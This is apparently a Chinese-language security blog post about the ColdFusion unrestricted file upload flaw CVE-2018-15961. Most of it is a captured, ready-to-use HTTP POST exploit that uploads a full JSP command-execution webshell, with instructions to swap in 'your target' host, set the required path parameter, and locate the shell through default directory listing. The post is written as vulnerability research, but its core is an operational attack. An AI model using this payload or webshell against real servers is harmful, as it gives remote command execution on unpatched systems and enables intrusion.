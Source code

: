 ```yaml
---
id: 5001
title: Adobe ColdFusion Unrestricted File Upload Vulnerability(CVE-2018-15961)
date: 2018-11-12T17:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5001
permalink: /coldfusion-unrestricted-file-uplodd/
categories:
  - web
tags:
  - Adobe
  - ColdFusion
  - unrestricted file upload
  - CVE-2018-15961
---
```

Adobe 在新的bulletin里面提到了CVE-2018-15961被大量利用：https://helpx.adobe.com/security/products/coldfusion/apsb18-33.html
网上最早的分析报告有：https://www.volexity.com/blog/2018/11/08/active-exploitation-of-newly-patched-coldfusion-vulnerability-cve-2018-15961/
但是里面并没有提到具体的POST包，我本地搭建环境，抓了下包，得到了最终getshell的POST包：
~~~~
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 172.16.59.130:8500
Content-Length: 1115
Cache-Control: max-age=0
Origin: http://172.16.59.130:8500
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynLGnAOgQ8df3hQ61
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://172.16.59.130:8500/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=E69D416EB891D3E7CDBF0FE787F13E79.cfusion
Connection: close

------WebKitFormBoundarynLGnAOgQ8df3hQ61
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundarynLGnAOgQ8df3hQ61
Content-Disposition: form-data; name="path"

1
------WebKitFormBoundarynLGnAOgQ8df3hQ61--
~~~~
把host改成你的目标即可，这里需要注意的是path参数一定要指定。成功上传之后会在filemanager目录下创建一个uploadedFiles目录，上传webshell就在该目录下
coldfusion默认部署完是存在列目录的漏洞，所以找到上传的文件不难。如果uploadedFiles目录里面已经存在相同的文件xxoo.jsp，新上传的文件会被改名为xxoo1.jsp xx002.jsp

写在最后，希望大家在研究漏洞的时候注意自身安全，已经有多个国外媒体提到这次漏洞疑似中国的apt攻击，有人利用该漏洞上传了china chopper（菜刀）
